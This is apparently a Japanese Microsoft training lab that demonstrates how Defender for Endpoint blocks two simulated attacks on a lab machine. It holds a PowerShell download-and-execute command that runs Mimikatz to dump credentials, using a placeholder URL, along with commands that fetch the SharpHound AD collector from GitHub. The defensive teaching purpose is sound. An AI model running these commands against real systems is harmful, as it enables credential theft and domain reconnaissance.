 # モジュール 2 デモ - Microsoft Defender for Endpoint を使用した攻撃の軽減

**注**: このデモを正常に完了するには、[前提条件ドキュメント](00-prerequisites.md)のすべての手順を完了する必要があります。

## シミュレーション攻撃

このタスクでは、シミュレートされた攻撃を 2 回行って、Microsoft Defender for Endpoint の機能を確認します。

1. ブラウザーで Microsoft Defender XDR ポータルにまだアクセスしていない場合は、テナントの管理者としてログインして、https://security.microsoft.com) の Microsoft Defender XDR に移動します。

"WIN1" で "PowerShell" を使って "シミュレートされた" 攻撃を実行し、Microsoft Defender for Endpoint の機能を確認します。******

`Attack 1: Mimikatz - Credential Dumping`

1. "WIN1" マシンで、検索バーに「**Command**」と入力し、**[管理者として実行]** を選びます。**

1. 次のコマンドをコピーして、**[管理者:コマンド プロンプト]** ウィンドウに貼り付け、**Enter** キーを押して実行します。

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. "アクセスが拒否されました" というメッセージと、"脅威が見つかりました" という `Microsoft Defender Antivirus, Windows Security Virus and threats protection` からのポップアップ メッセージが表示されます。****

1. **[管理者:コマンド プロンプト]** ウィンドウで「**exit**」と入力し、**Enter** キーを押して終了します。

`Attack 2: Bloodhound - Collection`

1. "WIN1" マシンで、検索バーに「**PowerShell**」と入力し、**[Windows PowerShell]** を選び、**[管理者として実行]** を選びます。**

1. 次のコマンドをコピーして、**[管理者:Windows PowerShell]** ウィンドウに貼り付け、**Enter** キーを押して実行します。

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**注:**  コマンドのコピー、貼り付け、実行は、一度に 1 つずつ行うことをお勧めします。 "メモ帳" を開き、コマンドを一時ファイルにコピーすることで、これを行うことができます。** 最初のコマンドでは、"Atomic Red Team" フォルダーがあるのと同じフォルダーに、"ExternalPayloads" という名前のフォルダーが作成されます。**** 2 番目のコマンドでは、"BloodHound" GitHub リポジトリから "SharpHound.ps1" ファイルがダウンロードされ、"ExternalPayloads" フォルダーに保存されます。******

1. [脅威が見つかりました] という `Windows Security Virus and threats protection` からのポップアップ メッセージが表示されます。**

1. 次のコマンドをコピーして、**[管理者:Windows PowerShell]** ウィンドウに貼り付け、**Enter** キーを押して実行します。

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 出力が *True* の場合、マルウェア ペイロード ファイルは Microsoft Defender ウイルス対策によって削除されていません。 出力が *False* の場合、マルウェア ペイロード ファイルは Microsoft Defender ウイルス対策によって削除されています。 上方向キーを使用して、出力が *False* になるまでコマンドを繰り返します。

## デモが完了しました

